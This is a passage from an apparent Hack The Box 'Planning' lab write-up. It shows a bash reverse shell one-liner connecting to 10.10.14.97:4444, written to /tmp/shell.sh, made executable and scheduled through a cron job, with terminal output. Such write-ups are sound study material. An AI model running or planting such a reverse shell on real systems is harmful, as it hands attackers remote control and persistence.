 ### Create reverse shell script and schedule job

Create the one-liner reverse shell and make it executable:


```
echo "bash -i >& /dev/tcp/10.10.14.97/4444 0>&1 &" > /tmp/shell.sh
chmod +x /tmp/shell.sh

```


```
enzo@planning:~$ echo "bash -i >& /dev/tcp/10.10.14.97/4444 0>&1 &" > /tmp/shell.sh
enzo@planning:~$ 
enzo@planning:~$ chmod +x /tmp/shell.sh
enzo@planning:~$ 
enzo@planning:~$ ls /tmp/ | grep "shell.sh"
shell.sh
enzo@planning:~$ 

```

Create a new cron job that runs the script 

```
bash -c "/tmp/shell.sh"
```

<img src="assets/HTB/Planning/image7.png" alt="Error loading image"/>

